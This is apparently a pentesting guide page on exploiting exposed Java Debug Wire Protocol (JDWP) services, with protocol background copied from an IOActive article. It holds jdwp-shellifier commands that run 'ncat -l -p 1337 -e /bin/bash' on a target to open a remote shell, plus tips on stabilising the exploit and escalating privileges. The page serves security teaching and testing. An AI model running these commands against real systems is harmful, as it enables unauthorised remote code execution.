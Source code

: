 # Pentesting JDWP - Java Debug Wire Protocol

## Exploiting

You can use the python exploit located in [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)

```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```

I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

Normally this debugger is run on port 8000 and if you establish a TCP connection with the port and send "**JDWP-Handshake**", the server should respond you with the same string.\
Also, you can check this string in the network to find possible JDWP services.

Listing **processes**, if you find the string "**jdwk**" inside a **java process**, probably it has active the \*\*Java Debug Wired Protocol \*\*and you may be able to move laterally or even **escalate privileges** (if executed as root).

## More details

**Copied from** [**https://ioactive.com/hacking-java-debug-wire-protocol-or-how/**](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)

### **Java Debug Wire Protocol**

**Java Platform Debug Architecture (JPDA)**: JDWP is one component of the global Java debugging system, called the Java Platform Debug Architecture (JPDA)\[2]. The following is a diagram of the overall architecture:

[![](https://ioactive.com/wp-content/uploads/2014/04/jdpa.png)](https://ioactive.com/wp-content/uploads/2014/04/jdpa-1.png)

The Debuggee consists of a multi-threaded JVM running our target application. In order to be remotely debuggable, the JVM instance must be explicitly started with the option -Xdebug passed on the command line, as well as the option -Xrunjdwp (or -agentlib). For example, starting a Tomcat server with remote debugging enabled would look like this:

[![](https://ioactive.com/wp-content/uploads/2014/04/tomat.png)](https://ioactive.com/wp-content/uploads/2014/04/tomat-1.png)

As shown in the architecture diagram, the Java Debug Wire Protocol is the central link between the Debugger and the JVM instance. Observations about the protocol include:

* It is a packet-based network binary protocol.
* It is mostly synchronous. The debugger sends a command over JDWP and expects to receive a reply. However, some commands, like Events, do not expect a synchronous response. They will send a reply when specific conditions are met. For example, a BreakPoint is an Event.
* It does not use authentication.
* It does not use encryption.

